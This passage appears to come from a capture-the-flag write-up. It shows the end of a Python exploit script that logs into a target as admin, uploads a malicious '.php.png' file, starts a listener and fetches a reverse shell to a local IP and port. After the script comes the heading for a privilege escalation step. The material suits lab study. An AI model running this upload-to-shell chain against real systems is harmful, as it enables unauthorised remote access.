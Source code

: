 ```py
    # Cleaning up
    cleaningMess()

# Function to delete the files created
def cleaningMess():
    os.system("rm Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png")
    os.system("shell.sh")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--localip', help='Local ip address or hostname to receive the shell', required=True)
    parser.add_argument('-p', '--localport', help='Local port to receive the shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Create the payload file
    createPayload()
    # Create the sh file
    createShell(lhost,lport)
    # Login as admin
    loginAdmin(rhost)
    # Upload the malicious file
    malicious = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png"
    uploadMalicious(rhost,lhost,malicious)
    # Get the reverse shell
    reverseShell(rhost,upload_url)

if __name__ == '__main__':
    main()
```

# www-data --> moshe

We begin our privilege escalation on this box

